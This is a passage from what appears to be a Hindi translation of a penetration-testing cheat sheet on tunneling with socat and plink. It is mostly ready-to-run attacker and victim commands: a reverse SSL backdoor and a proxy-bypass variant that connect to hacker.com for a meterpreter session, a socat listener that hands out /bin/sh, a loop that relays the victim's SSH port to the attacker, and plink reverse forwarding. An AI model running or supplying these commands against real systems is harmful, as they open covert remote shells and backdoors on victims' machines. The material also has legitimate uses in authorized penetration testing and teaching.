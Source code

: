 ```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
```
आप एक **गैर-प्रमाणित प्रॉक्सी** को बायपास कर सकते हैं, इस पंक्ति को पीड़ित के कंसोल में अंतिम पंक्ति के बजाय निष्पादित करके:
```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```
[https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/](https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/)

### SSL Socat Tunnel

**/bin/sh कंसोल**

दोनों पक्षों पर प्रमाणपत्र बनाएं: क्लाइंट और सर्वर
```bash
# Execute these commands on both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```

```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```
### Remote Port2Port

स्थानीय SSH पोर्ट (22) को हमलावर होस्ट के 443 पोर्ट से कनेक्ट करें
```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```
## Plink.exe

यह एक कंसोल PuTTY संस्करण की तरह है (विकल्प ssh क्लाइंट के बहुत समान हैं)।

चूंकि यह बाइनरी पीड़ित में निष्पादित की जाएगी और यह एक ssh क्लाइंट है, हमें अपनी ssh सेवा और पोर्ट खोलने की आवश्यकता है ताकि हम एक रिवर्स कनेक्शन प्राप्त कर सकें। फिर, केवल स्थानीय रूप से सुलभ पोर्ट को हमारे मशीन के पोर्ट पर अग्रेषित करने के लिए:
```bash
echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```
## Windows netsh
